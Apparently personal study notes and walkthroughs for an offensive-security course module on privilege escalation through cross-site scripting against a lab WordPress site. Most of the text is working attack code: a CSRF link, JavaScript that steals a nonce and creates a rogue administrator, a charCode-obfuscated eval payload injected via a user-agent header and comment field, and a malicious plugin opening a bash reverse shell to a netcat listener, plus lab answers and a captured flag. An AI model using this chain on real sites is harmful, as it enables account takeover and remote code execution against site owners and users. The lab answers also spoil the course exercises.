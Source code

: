 # Privilege Escalation via XSS

CSRF example attack
>``` shell
><a href="http://fakecryptobank.com/send_btc?account=ATTACKER&amount=100000"">Check out these awesome cat memes!</a>
>```

Gathering WordPress Nonce
>``` shell
>var ajaxRequest = new XMLHttpRequest();
>var requestURL = "/wp-admin/user-new.php";
>var nonceRegex = /ser" value="([^"]*?)"/g;
>ajaxRequest.open("GET", requestURL, false);
>ajaxRequest.send();
>var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
>var nonce = nonceMatch[1];
>```

Creating a New WordPress Administrator Account
>``` shell
>var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
>ajaxRequest = new XMLHttpRequest();
>ajaxRequest.open("POST", requestURL, true);
>ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>ajaxRequest.send(params);
>```

Minifying the XSS attack code
>``` shell
>https://jscompress.com/
>```

JS Encoding JS Function
>``` shell
>function encode_to_javascript(string) {
>            var input = string
>            var output = '';
>            for(pos = 0; pos < input.length; pos++) {
>                output += input.charCodeAt(pos);
>                if(pos != (input.length - 1)) {
>                    output += ",";
>                }
>            }
>            return output;
>        }
>        
>let encoded = encode_to_javascript('insert_minified_javascript')
>console.log(encoded)
>```

Launching the Final XSS Attack through Curl
>``` shell
>kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
>```

Lab 1 - Start Walkthrough VM 1 and replicate the steps learned in this Learning Unit to identify the basic XSS vulnerability present in the Visitors plugin. Based on the source code portion we have explored, which other HTTP header might be vulnerable to a similar XSS flaw?
>``` shell
># Map Hostname to IP
>kali@kali:~$ sudo nano /etc/hosts
>
># Add this line at the bottom:
>192.168.179.16 offsecwp
>
># Save and exit:
>Ctrl + X
>
># Navigate to http://offsecwp/?p=1 and test for an XSS vulnerability by entering the followng in the comment section:
><script>alert(1)</script>
>
># ========== Expected Result ==========
>1
># =====================================
>```
>X-Forwarded-For

Lab 2 - Start Walkthrough VM 2 and replicate the privilege escalation steps we explored in this Learning Unit to create a secondary administrator account. What is the JavaScript method responsible for interpreting a string as code and executing it? Submit the answer as the method name only, or methodName().
>``` shell
># Navigate to https://jscompress.com/ and compress the following JavaScript to a one liner:
>// Step 1: Fetch nonce from /wp-admin/user-new.php
>var ajaxRequest = new XMLHttpRequest();
>var requestURL = "/wp-admin/user-new.php";
>var nonceRegex = /ser" value="([^"]*?)"/g;
>ajaxRequest.open("GET", requestURL, false);
>ajaxRequest.send();
>var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
>var nonce = nonceMatch[1];
>
>// Step 2: Create new admin user
>var params = "action=createuser&_wpnonce_create-user=" + nonce +
>    "&user_login=attacker&email=attacker@offsec.com" +
>    "&pass1=attackerpass&pass2=attackerpass&role=administrator";
>
>ajaxRequest = new XMLHttpRequest();
>ajaxRequest.open("POST", requestURL, true);
>ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>ajaxRequest.send(params);
>
># ========== Expected Result ==========
>var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);
># =====================================
>
># Navigate to http://offsecwp/?p=1
>
># Right-click anywhere on the page, click Inspect
>
># Navigate to the "Console" tab and enter the following:
>
># 1. Define the function
>function encode_to_javascript(string) {
>    var output = '';
>    for (let i = 0; i < string.length; i++) {
>        output += string.charCodeAt(i);
>        if (i !== string.length - 1) output += ",";
>    }
>    return output;
>}
>
># 2. Assign your JavaScript payload as a string
>let payload = 'var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);';
>
># 3. Encode it
>let encoded = encode_to_javascript(payload);
>console.log(encoded);
># ========== Expected Result ==========
>118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59
># =====================================
>
># Navigate to http://offsecwp/?p=1 and enter the followng in the comment section (Creates a new administrator user: attacker / attackerpass):
><script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>
>```
>eval()

Lab 3 - Capstone Lab: Start Module Exercise VM 1 and add a new administrative account like we did in this Learning Unit. Next, craft a WordPress plugin that embeds a web shell and exploit it to enumerate the target system. Upgrade the web shell to a full reverse shell and obtain the flag located in /tmp/. Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.
>``` shell
># Create plugin file
>kali@kali:~$ nano rev-plugin.php
>
># Paste (Replace XXX.XXX.XXX.XXX with your Kali machine’s IP):
><?php
>/*
>Plugin Name: Reverse Shell Plugin
>Description: A simple reverse shell in plugin form.
>*/
>
>exec("/bin/bash -c 'bash -i >& /dev/tcp/XXX.XXX.XXX.XXX/4444 0>&1'");
>?>
>
># Save and exit:
>Ctrl + X
>
># Package the Plugin
>kali@kali:~$ zip rev-plugin.zip rev-plugin.php
>
># Navigate to http://offsecwp/wp-admin and login as user: attacker / attackerpass
>
># Navigate to the "Plugins" tab, then "Add New", and "Upload Plugin"
>
># Upload "rev-plugin.zip" and activate "Reverse Shell Plugin"
>
># On your Kali terminal, run:
>kali@kali:~$ nc -nlvp 4444
>
># ========== Expected Result ==========
>listening on [any] 4444 ...
>connect to [192.168.45.236] from (UNKNOWN) [192.168.179.16] 34356
>bash: cannot set terminal process group (1): Inappropriate ioctl for device
>bash: no job control in this shell
>www-data@5417bec76fe9:/var/www/html/wp-admin$
># =====================================
>
># From the web shell, run:
>www-data@5417bec76fe9:/var/www/html/wp-admin$ cat /tmp/flag
>
># ========== Expected Result ==========
>cat /tmp/flag
>OS{f09e668c83f71a1f3d13f442285ed2a8}
># =====================================
>```
>OS{f09e668c83f71a1f3d13f442285ed2a8}

